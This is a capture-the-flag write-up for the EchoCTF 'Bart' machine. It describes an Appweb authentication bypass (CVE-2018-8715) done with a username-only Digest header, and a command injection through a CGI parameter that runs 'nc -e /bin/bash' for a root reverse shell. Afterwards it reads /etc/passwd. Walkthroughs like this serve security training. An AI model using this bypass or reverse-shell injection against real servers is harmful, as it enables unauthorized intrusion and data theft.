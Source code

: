<br>
<pre class="">    |\/\  ,.
    /   `' |,-,
   /         /_
 _/            /
(.-,--.       /
/o/  o \     /    Bart writeup
\_\    /   _/     URL: art.echocity-f.com
(__`--'    _)     Author: HitmanAlharbi
 /         |      Team: Blackfoxs
(_____,'    \ 
   \_       _\
     `._..-'
</pre>

<br>

<b>Bart wrtieup for EchoCTF Cyber Saber 2019</b>

<br>

The target machine have one "<b><font color=green>open port</font></b>" (<b>8080</b>) 

This port have a service called "<b><font color=blue>Appweb Web Server</font></b>"

Let's open the URL with port <b>8080</b> in the browser because it's web server

When you open the URL it will ask you a password "<b>HTTP Authorization</b>"

We tried default credentials like "admin:admin" but not works

We tried too to brute force the password and username but now works

Okay now we decide to search about "<b>Appweb Web Server</b>" vulnerabilities

We have four CVEs but only one was interesting "<b><font color=red>CVE-2018-8715</font></b>" 

https://github.com/embedthis/appweb/issues/610

The CVE Vulnerability Details said that to bypass the the authentication

You should send the Authorization header with username only without password

For example: "<b><font color=blue>Authorization: Digest username=admin</font></b>"

We test it and really we bypassed the authorization successfully

Now take your flag from the source code and you will discover the main page was fake

We tried to fuzz the URLs but the web server blocked our attempts 

But we know the <b>EchoCTF</b> makers love to use the word "<b>ETSCTF</b>"

Because of that we tried many attempts and we find there is a page called <b><font color=blue>ETSCTF.cgi</font></b>

The Appweb server can run .cgi files without any problem 

Now this page runs the command "<b><font color=red>printenv</font></b>" , first take the two flags from page

The last step to get RCE , try to send a POST request with the parameter "<b><font color=red>ETSCTF</font></b>" has the command

For example: "<b><font color=blue>ETSCTF=nc -e /bin/bash target-ip port</font></b>"

Now you can execute commands with root permissions 

Take all the flags from server like <b>/etc/passwd</b> , <b>/root/ETSCTF</b> and <b>/var/www/html/ETSCTF.html</b>

PS: use grep always for example ( <b> grep -r 'ETSCTF' /var </b> )




